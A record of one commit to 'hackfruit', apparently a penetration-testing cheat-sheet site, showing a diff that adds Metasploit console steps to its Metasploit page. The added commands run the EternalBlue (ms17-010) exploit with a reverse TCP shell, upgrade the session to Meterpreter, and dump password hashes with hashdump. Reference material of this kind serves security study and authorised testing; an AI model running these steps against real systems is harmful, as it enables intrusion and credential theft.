

Before and after one commit to hideckies/hackfruit, a Jekyll site: the page built from _fruits/Metasploit.md, in a window 1280 px wide and 900 px high, scrolled down 325 px. Shown: the whole window, without its empty margins (224-1055 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 924 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
added meterpreter section in the Metasploit page

````diff
--- a/_fruits/Metasploit.md
+++ b/_fruits/Metasploit.md
@@ -9,10 +9,65 @@ website:
 ## Msfconsole
 
 ```sh
+# Start
 msfconsole
+
+---
+
+# Search exploits from keywords
+msf6 > search ms17-010
+
+# Use an exploit
+msf6 > use exploit/windows/smb/smb_17_010_eternalblue
+
+# Show options
+msf6 exploit(windows/smb/smb_17_010_eternalblue) > options
+
+# Set option (ex. RHOSTS)
+msf6 exploit(windows/smb/smb_17_010_eternalblue) > set rhosts 10.0.0.1
+msf6 exploit(windows/smb/smb_17_010_eternalblue) > set lhost 10.0.0.2
+
+# Set payload
+msf6 exploit(windows/smb/smb_17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
+
+# Run exploit
+msf6 exploit(windows/smb/smb_17_010_eternalblue) > exploit
+
+#
+# Ctrl + Z to background session
+#
 ```
 
-## Msfvenom - Standalone payload geenrator
+<br />
+
+## Meterpreter - An interractive shell
+
+```sh
+# Upgrade to meterpreter
+msf6 exploit(windows/smb/smb_17_010_eternalblue) > use post/multi/manage/shell_to_meterpreter
+
+# Set session
+msf6 exploit(post/multi/manage/shell_to_meterpreter) > set session 1
+
+# Run exploit
+msf6 exploit(post/multi/manage/shell_to_meterpreter) > exploit
+
+# Select session for use
+msf6 exploit(post/multi/manage/shell_to_meterpreter) > sessions 2
+
+# Display the target machine's info
+meterpreter > sysinfo
+
+# Move to the target shell
+meterpreter > shell
+
+# Dump all passwords on the machine
+meterpreter > hashdump
+```
+
+<br />
+
+## Msfvenom - Standalone payload generator
 
 ```sh
 # Get payloads
````
Also changed, not shown: _fruits/BITBtemplates.md (added, +7 -0 lines), _fruits/Hashcat.md (+4 -4 lines), _fruits/HaveIBeenPwned.md (added, +7 -0 lines), _fruits/JohnTheRipper.md (+3 -0 lines), _fruits/Nmap.md (+6 -0 lines).
